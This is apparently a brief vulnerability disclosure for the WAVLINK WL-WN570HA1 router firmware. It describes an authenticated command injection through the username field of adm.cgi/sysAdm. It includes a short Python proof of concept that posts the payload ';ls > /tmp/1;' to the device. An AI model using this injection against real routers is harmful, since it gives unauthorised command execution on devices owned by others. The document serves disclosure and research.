


# command injection

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a command injection in adm.cgi/sysAdm

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:




get value from username



if our password is correct, we can get into here, and pass the check of ';', cause command injection

## POC
```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={ 'page':'sysAdm', 'username': + payload, 'SYSPASS':'yours'})
``` 
